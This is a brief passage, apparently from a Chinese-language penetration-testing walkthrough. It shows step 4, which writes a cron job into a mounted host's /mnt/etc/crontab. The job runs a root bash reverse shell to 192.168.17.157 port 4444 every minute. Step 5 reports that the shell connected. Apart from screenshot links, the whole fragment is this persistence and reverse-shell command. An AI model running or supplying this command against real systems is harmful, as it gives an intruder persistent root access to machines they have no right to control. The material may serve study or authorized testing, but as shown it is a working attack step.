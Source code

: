 [![](assets/1698893355-e2f65e650aa43d2f970bba0a4b4e60a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172207-f7a59e8a-7317-1.png)  
Step 4：之后写计划任务

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.157/4444 0>&1\n" >> /mnt/etc/crontab
```

[![](assets/1698893355-a12db7112b9ff0aae3442db3db61544d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172224-02317568-7318-1.png)  
Step 5：成功反弹shell
